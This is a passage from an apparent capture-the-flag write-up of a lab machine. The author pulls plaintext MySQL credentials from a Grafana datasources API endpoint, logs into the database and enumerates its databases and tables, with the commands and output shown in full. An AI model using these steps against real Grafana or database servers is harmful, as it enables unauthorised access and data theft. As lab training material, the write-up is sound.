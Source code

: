 Naturally, I tried connecting to the MySQL instance with no password, but this failed:

```bash
$mysql -h 10.10.11.183 -u grafana
ERROR 1045 (28000): Access denied for user 'grafana'@'10.10.14.48' (using password: NO)
```

But we can already see the datasources API, which shows us MySQL credentials [http://10.10.11.183:3000/api/datasources](http://10.10.11.183:3000/api/datasources):

```json
[
  {
    "id": 2,
    "uid": "uKewFgM4z",
    "orgId": 1,
    "name": "mysql.yaml",
    "type": "mysql",
    "typeName": "MySQL",
    "typeLogoUrl": "public/app/plugins/datasource/mysql/img/mysql_logo.svg",
    "access": "proxy",
    "url": "",
    "password": "dontStandSoCloseToMe63221!",
    "user": "grafana",
    "database": "grafana",
    "basicAuth": false,
    "isDefault": false,
    "jsonData": {},
    "readOnly": true
  }
]
```

So we have mysql credentials grafana / dontStandSoCloseToMe63221!, and we can connect to and enumerate the database.  Grafana was empty, but the whackywidget database looks juicy:

```bash
$mysql -h 10.10.11.183 -u grafana -p grafana
Enter password: 
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MySQL connection id is 48
Server version: 8.0.30-0ubuntu0.20.04.2 (Ubuntu)

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MySQL [grafana]> show databases;
+--------------------+
| Database           |
+--------------------+
| grafana            |
| information_schema |
| mysql              |
| performance_schema |
| sys                |
| whackywidget       |
+--------------------+
6 rows in set (0.024 sec)
MySQL [grafana]> use whackywidget;
MySQL [whackywidget]> show tables;
+------------------------+
| Tables_in_whackywidget |
+------------------------+
| users                  |
+------------------------+
1 row in set (0.021 sec)
```